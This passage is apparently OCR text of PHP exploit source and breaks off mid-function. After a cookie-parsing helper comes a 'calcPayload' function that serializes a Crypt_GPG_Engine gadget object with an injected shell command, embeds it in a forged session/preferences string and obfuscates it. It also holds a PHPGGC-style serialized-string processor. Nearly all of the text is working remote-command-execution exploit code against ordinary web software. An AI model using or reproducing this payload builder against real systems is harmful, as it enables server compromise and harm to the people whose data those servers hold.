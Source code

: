 ```
{
    $cookies = [];

    if (preg_match_all('/^Set-Cookie:\s*([^=]+)=([^;]+);/mi', $headers, $matches, PREG_SET_ORDER)) {
        foreach ($matches as [$full, $key, $value]) {
            if ($value === '-del-') {
                continue;
            }
            $cookies[] = sprintf('%s=%s', $key, $value);
        }
    }

    return $existing . implode(';', $cookies) . (!empty($cookies) ? ';' : '');
}

/**
 * Magic is happening here
 */
function calcPayload($cmd){

class Crypt_GPG_Engine{
private $_gpgconf;

function __construct($cmd){
$this->_gpgconf = $cmd.';#';
		}
	}

$payload = serialize(new Crypt_GPG_Engine($cmd));
$payload = process_serialized($payload) . 'i:0;b:0;';
$append = strlen(12 + strlen($payload)) - 2;
$_from = '!";i:0;'.$payload.'}";}}';
$_file = 'x|b:0;preferences_time|b:0;preferences|s:'.(78 + strlen($payload) + $append).':\\"a:3:{i:0;s:'.(56 + $append).':\\".png';

$_from = preg_replace('/(.)/', '$1' . hex2bin('c'.rand(0,9)), $_from); //little obfuscation

return [$_from, $_file];
}

/**
 * PHPGGC magic
 */
function process_serialized($serialized, $full = false){
$new = '';
$last = 0;
$current = 0;
$pattern = '#\bs:([0-9]+):"#';

while(
$current < strlen($serialized) &&
preg_match(
$pattern, $serialized, $matches, PREG_OFFSET_CAPTURE, $current
		)
	)
	{
$p_start = $matches[0][1];
$p_start_string = $p_start + strlen($matches[0][0]);
$length = $matches[1][0];
$p_end_string = $p_start_string + $length;

if(!(
```